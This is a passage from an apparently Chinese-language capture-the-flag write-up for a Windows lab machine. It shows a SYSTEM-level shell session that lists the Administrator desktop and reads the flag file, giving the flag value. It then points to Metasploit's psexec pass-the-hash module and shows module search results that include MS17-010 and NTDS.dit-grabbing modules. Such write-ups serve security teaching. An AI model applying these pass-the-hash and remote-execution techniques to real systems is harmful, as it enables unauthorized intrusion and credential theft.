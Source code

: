 ```
10/27/2020  09:44 AM    <DIR>          Contacts
11/07/2020  07:03 AM    <DIR>          Desktop
10/27/2020  09:57 AM    <DIR>          Documents
10/27/2020  10:32 AM    <DIR>          Downloads
10/27/2020  09:44 AM    <DIR>          Favorites
10/27/2020  09:44 AM    <DIR>          Links
10/27/2020  09:44 AM    <DIR>          Music
10/27/2020  09:44 AM    <DIR>          Pictures
10/27/2020  09:44 AM    <DIR>          Saved Games
10/27/2020  09:44 AM    <DIR>          Searches
10/27/2020  09:44 AM    <DIR>          Videos
               0 File(s)              0 bytes
              14 Dir(s)  15,788,568,576 bytes free

C:\Users\Administrator>cd Desktop

C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 9E32-0E96

 Directory of C:\Users\Administrator\Desktop

11/07/2020  07:03 AM    <DIR>          .
11/07/2020  07:03 AM    <DIR>          ..
11/07/2020  07:03 AM                32 flag.txt
               1 File(s)             32 bytes
               2 Dir(s)  15,788,568,576 bytes free

C:\Users\Administrator\Desktop>type flag.txt
097ab83639dce0ab3429cb0349493f60
C:\Users\Administrator\Desktop>whoami
nt authority\system

```

flag为：`097ab83639dce0ab3429cb0349493f60`

**或者是使用meterpreter中的psexec模块**
[PSEXEC PASS THE HASH](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)

```
msf5 > search psexec

Matching Modules
================

   #   Name                                         Disclosure Date  Rank       Check  Description
   -   ----                                         ---------------  ----       -----  -----------
   0   auxiliary/admin/smb/ms17_010_command         2017-03-14       normal     No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1   auxiliary/admin/smb/psexec_command                            normal     No     Microsoft Windows Authenticated Administration Utility
   2   auxiliary/admin/smb/psexec_ntdsgrab                           normal     No     PsExec NTDS.dit And SYSTEM Hive Download Utility
   3   auxiliary/scanner/smb/impacket/dcomexec      2018-03-19       normal     No     DCOM Exec
   4   auxiliary/scanner/smb/impacket/wmiexec       2018-03-19       normal     No     WMI Exec
   5   auxiliary/scanner/smb/psexec_loggedin_users                   normal     No     Microsoft Windows Authenticated Logged In Users Enumeration
   6   encoder/x86/service                                           manual     No     Register Service
   7   exploit/windows/local/current_user_psexec    1999-01-01       excellent  No     PsExec via Current User Token
   8   exploit/windows/local/wmi                    1999-01-01       excellent  No     Windows Management Instrumentation (WMI) Remote Command Execution
```